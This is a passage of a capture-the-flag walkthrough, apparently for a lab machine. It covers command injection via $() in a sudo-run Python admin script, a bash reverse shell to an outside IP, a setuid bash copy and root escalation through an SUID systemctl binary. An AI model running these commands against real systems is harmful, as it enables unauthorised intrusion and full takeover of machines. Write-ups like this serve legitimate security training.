     Find a combination without the forbidden sign ...
    
    - `99. $(id)`
    -> groups=1000(pepper)
    This work and $ is not in the forbidden Array.

## $(command) - RCE

**1. Methode: Run [rev.sh](http://rev.sh) file**

We can execute the reverse shell code in the $() command, 
so we crate a file with the forbidden strings and run it.

```bash
#!/usr/bin/bash
bash -i >& /dev/tcp/10.10.14.22/9001 0>&1
```

- `sudo -u pepper /var/www/Admin-Utilities/simpler.py -p`
    - `99. $(bash /tmp/rev.sh)`

**2. Methode: /bin/bash pepper file**

Create a copy of bash and set SGID, and it will be owned by pepper.

- `sudo -u pepper /var/www/Admin-Utilities/simpler.py -p`
    - `99. $(/bin/cp /bin/bash /tmp/pepper)`
    - `99. $(chmod +s /tmp/pepper)`
- `/tmp/pepper -p`

→ uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)

---

# Privilege Escalation - Root

**Linpeas.sh**

[+] SUID - Check easy privesc, exploits and write perms

rwsr-x--- 1 root **pepper** 171K Feb 17 2019 /bin/systemctl

## GTFOBins - systemctl [📌](https://gtfobins.github.io/gtfobins/systemctl/)

```
TF=$(mktemp)
echo /bin/sh >$TF
chmod +x $TF
SYSTEMD_EDITOR=$TF /bin/systemctl edit system.slice
```

→ uid=1000(pepper) gid=1000(pepper) euid=0(root) groups=1000(pepper)
